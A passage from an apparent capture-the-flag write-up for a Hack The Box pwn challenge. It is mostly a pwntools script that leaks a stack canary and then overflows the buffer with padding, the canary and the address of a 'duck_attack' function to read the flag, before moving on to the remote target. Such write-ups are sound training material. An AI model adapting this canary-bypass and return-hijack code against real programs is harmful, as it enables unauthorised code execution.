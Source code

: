 ```python
# Send the payload in the first input.
io.recvuntil(b'> ', timeout=1)
io.sendline(payload)

# Adjust the leaked canary output.
canary_position = io.recv(timeout=1).split()[2].rstrip(b',')
fixed_output = b'\x00' + canary_position[-7:]
leaked_canary = u64(fixed_output.ljust(8, b'\x00'))
log.info(f"Leaked stack canary is: {hex(leaked_canary)}")

# Prepare payload for the 2nd input.
win_addr = exe.symbols['duck_attack']

payload = b"" # -----------------------< Start payload.
payload += b"C"*88 # ------------------< Padding until Stack Canary.
payload += p64(leaked_canary) # -------< Leaked canary value.
payload += p64(0xdeadbeef) # ----------< Fake address for $RBP.
payload += p64(win_addr) # ------------< Ret2win to read the flag.

# Send the payload + canary in the second input.
io.recvuntil(b'> ', timeout=1)
io.sendline(payload)

# Print the flag.
flag = re.search(r'HTB{.*}', io.recvall(timeout=1).decode())
print(f"Flag --> {flag.group(0)}") if flag else print("Failed to get the flag!")

# Maintain current session.
io.interactive()
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

After several attempts about 3 - 10 times, then I can successfully read the flag. Okay, now let's crack the remote machine.
